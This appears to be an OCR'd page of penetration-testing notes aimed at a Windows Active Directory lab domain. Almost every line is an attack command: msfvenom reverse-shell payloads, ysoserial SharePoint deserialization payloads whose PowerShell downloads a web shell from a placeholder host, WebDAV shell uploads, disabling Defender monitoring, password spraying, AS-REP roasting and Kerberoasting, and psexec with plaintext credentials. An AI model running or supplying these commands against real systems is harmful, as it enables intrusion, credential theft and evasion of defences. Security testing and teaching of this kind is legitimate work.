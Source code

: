 python3 wes.py /tmp/a.txt -s critical -c  
python3 wes.py /tmp/a.txt -e -c  
python3 wes.py /tmp/out.txt -s critical -c  
msfvenom -p windows/x64/shell/reverse_tcp LPORT=4444 LHOST=xxx -f msi > sploit.msi  
## TokenAcctFilter  
python3 psexec.py eve:eve@demo whoami  
python3 psexec.py administrator:toor@demo whoami  
python3 psexec.py zero/freya@femmefatale whoami  
## Manual Situational Awareness  
whoami /all  
net user kram /domain  
net localgroup administrators  
net share  
net view [\\](file:///\\agentspecial)agentspecial  
wmic useraccount get name,sid  
query session  
## AV  
Get-MpComputerStatus  
Set-MpPreference -DisableRealtimeMonitoring $true  
## Sharpoint  
ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -o base64 -c "powershell wget -OutFile C:\inetpub\wwwroot\wss\VirtualDirectories\80\_vti_pvt\cmd.aspx [http://xxx/kinetic/cmdasp.aspx](http://xxx/kinetic/cmdasp.aspx)"  
sp2.exe [http://10.65.1.34/sites/operations/](http://10.65.1.34/sites/operations/) cyn password kinetic [\\](file:///\\10.65.3.90\share\SP_soap_RCE_PoC.RCE_Resource.resources)10.65.3.90\share\SP_soap_RCE_PoC.RCE_Resource.resources  
ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -o base64 -c "powershell wget -OutFile C:\inetpub\wwwroot\wss\VirtualDirectories\80\_vti_pvt\cmd.aspx [http://xxx/kinetic/cmdasp.aspx](http://xxx/kinetic/cmdasp.aspx)"  
## WebDAV  
davtest -auth kinetic\\cyn:password -url [http://corpo/dav](http://corpo/dav)  
davtest -auth kinetic\\cyn:password -url [http://corpo/dav](http://corpo/dav)  -uploadfile cmdasp.aspx -uploadloc cmdasp.aspx  
davtest -auth kinetic\\cyn:password -url [http://corpo/dav](http://corpo/dav)  -uploadfile corpo.exe -uploadloc corpo.exe  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx LPORT=4444 -f exe > corpo.exe  
use exploit/multi/handler  
## Password sprawy  
polenum glorp:password@10.65.1.20  
ldapsearch -H ldap://10.65.1.20 -x -b 'DC=kinetic,DC=corp' -D glorp -W | grep -m 1 -B 10 pwdHistoryLength  
hydra -t 8 -L ./uplink1.txt -P /usr/share/john/password.lst uplink ssh  
crackmapexec smb uplink -u ./uplink2.txt -p /usr/share/john/password.lst  
spray smb uplink ./uplink1.txt /usr/share/john/password.lst 20 5  
## ASREP and Kerberoasting  
python3 GetNPUsers.py kinetic.corp/dennis -dc-ip 10.65.1.20 -no-pass -format john  
python3 GetNPUsers.py kinetic.corp/cyn -dc-ip 10.65.1.20 -no-pass -format john  
john asrep-cyn.txt --wordlist=/usr/share/wordlists/rockyou.txt  
john spn.txt --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt  
## Adalanche  
adalanche.exe collect activedirectory --tlsmode noTLS --port 389  
adalanche analyze  
./adalanche collect activedirectory --domain kinetic --username glorp@kinetic --password pAsSw0rd --server 10.65.1.20 --tlsmode NoTLS --port 389  
./adalanche collect activedirectory --adexplorerfile=kinetic.dat  
